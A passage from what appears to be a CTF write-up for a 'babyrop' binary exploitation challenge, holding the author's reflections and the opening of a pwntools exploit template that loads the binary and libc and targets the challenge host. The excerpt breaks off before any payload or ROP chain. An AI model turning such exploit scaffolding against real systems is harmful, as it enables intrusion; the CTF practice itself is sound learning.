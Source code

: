 
The author of this exploit comments about this exploit `mangling rax` which is make sense 

![5ee6285827f4a10addff8eae00581c5e.png](/assets/images/SmileyCTF-babyrop/5ee6285827f4a10addff8eae00581c5e.png)

It was fun and painfull to me, The last exploit i developed like 5 years or smt like that. So it was a good practice. 

The shared PoC code didn't work in my environment, i edited a bit in mine version. Here is the shared PoC code for this challange by the author.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host smiley.cat --port 46657
from pwn import *

context.terminal = ["kitten", "@", "launch", "--type", "tab"]

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'vuln')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'smiley.cat'
port = int(args.PORT or 42447)

# Use the specified remote libc version unless explicitly told to use the
# local system version with the `LOCAL_LIBC` argument.
# ./exploit.py LOCAL LOCAL_LIBC
if args.LOCAL_LIBC:
    libc = exe.libc
elif args.LOCAL:
    library_path = libcdb.download_libraries('libc.so.6')
    if library_path:
        exe = context.binary = ELF.patch_custom_libraries(exe.path, library_path)
        libc = exe.libc
    else:
        libc = ELF('libc.so.6')
else:
    libc = ELF('libc.so.6')

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
```